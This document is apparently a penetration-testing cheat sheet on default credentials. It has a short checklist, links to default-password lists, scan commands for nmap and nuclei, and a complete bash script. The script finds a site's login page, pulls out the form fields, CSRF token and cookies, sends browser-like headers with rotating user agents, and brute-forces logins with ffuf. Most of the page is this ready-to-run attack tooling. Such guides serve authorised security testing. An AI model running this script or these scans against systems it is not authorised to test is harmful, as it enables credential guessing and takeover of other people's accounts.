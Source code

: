 # Default Credentials

## Check List

* [ ] Determine whether the application has any user accounts with default passwords.
* [ ] Review whether new user accounts are created with weak or predictable passwords.

## Cheat Sheet

### Vendor Default Credentials

#### Default Creds

{% embed url="https://github.com/many-passwords/many-passwords" %}

{% embed url="https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv" %}

{% embed url="https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials" %}

{% embed url="https://many-passwords.github.io/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://haveibeenpwned.com/Passwords" %}

{% embed url="https://cirt.net/passwords" %}

#### [defaultcreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)

```bash
creds search tomcat
```

#### [Nmap](https://github.com/nnposter/nndefaccts)

```bash
sudo nmap -p80,443 --mtu 5000 --script http-default-accounts $WEBSITE
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/tree/main/http/default-logins)

```bash
nuclei -u $WEBSITE -tags default-login
```

### Status Code <a href="#error-message" id="error-message"></a>

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano default-bruteforce.sh
```

```bash
#!/bin/bash

# CONFIG
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"
UA_LIST="/usr/share/seclists/Fuzzing/User-Agents/user-agents-whatismybrowserdotcom-mid.txt"

# INPUT CHECK
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"

# FIND LOGIN PAGE
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sort -u | head -n1)

if [ -z "$LOGIN" ]; then
    echo "[!] No login page found. Exiting."
    exit 1
fi

# FETCH HTML
HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA / reCAPTCHA check
CAPTCHA_KEYWORDS="g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"
if echo "$HTML" | grep -qiE "$CAPTCHA_KEYWORDS"; then
    echo "[!] CAPTCHA detected on login page. Brute-force aborted."
    exit 1
fi

# EXTRACT FORM ACTION AND METHOD
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    BASE_URL=$(echo "$LOGIN" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# EXTRACT USERNAME & PASSWORD FIELDS
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF TOKEN EXTRACTION
CSRF_FIELD=""
CSRF_VALUE=""

HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

if [ -z "$CSRF_FIELD" ] && [ -n "$HIDDEN_INPUTS" ]; then
    CSRF_FIELD=$(echo "$HIDDEN_INPUTS" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+' | head -1)
    CSRF_VALUE=$(echo "$HIDDEN_INPUTS" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+' | head -1)
fi

# PREPARE POST DATA
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

# EXTRACT COOKIES
COOKIES=$(curl -s -I "$LOGIN" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I' | tr -d '\r\n')

# HEADERS
HEADERS=(
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
  -H "Accept-Language: en-US,en;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Connection: keep-alive"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Referer: $LOGIN"
)
[ -n "$COOKIES" ] && HEADERS+=(-H "Cookie: $COOKIES")

# RUN FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X GET \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x default-bruteforce.sh;sudo ./default-bruteforce.sh $WEBSITE
```

